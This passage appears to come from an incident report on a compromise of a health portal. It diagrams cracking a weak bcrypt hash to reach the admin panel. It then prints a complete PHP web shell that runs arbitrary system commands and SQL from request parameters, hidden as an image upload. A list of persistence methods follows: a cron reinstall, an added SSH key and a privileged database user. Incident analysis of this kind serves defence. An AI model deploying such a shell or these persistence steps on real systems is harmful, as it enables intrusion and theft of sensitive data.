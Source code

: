 **Attack Technique**:
```mermaid
graph TD
    A[Extract Password Hash] --> B[Identify Hash Algorithm]
    B -->|bcrypt with low rounds| C[Offline Cracking]
    C --> D[Rainbow Tables]
    C --> E[Dictionary Attack]
    D --> F[Password Cracked]
    E --> F
    F --> G[Login to Admin Panel]
    G --> H[Direct Database Access]
```

### Phase 5: Persistence (Day 22)

**Backdoor Installation**:

Once inside the admin panel, the attacker uploaded a web shell:

```php
<?php
// Backdoor: shell.php (disguised as image upload)
if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    
    // Execute system commands
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
}

// Database direct access
if (isset($_REQUEST['sql'])) {
    $sql = $_REQUEST['sql'];
    
    // Direct database query execution
    $conn = pg_connect("host=localhost dbname=healthportal user=admin password=admin123");
    $result = pg_query($conn, $sql);
    
    echo "<pre>";
    while ($row = pg_fetch_assoc($result)) {
        print_r($row);
    }
    echo "</pre>";
}
?>
```

**Backdoor Location**:
```
/var/www/healthportal/public/uploads/images/profile_2024_07_28_1234.php
```

**Persistence Mechanisms**:
- Web shell disguised as image file
- Scheduled cron job for re-installation
- SSH key added to admin user
- Database user with elevated privileges created
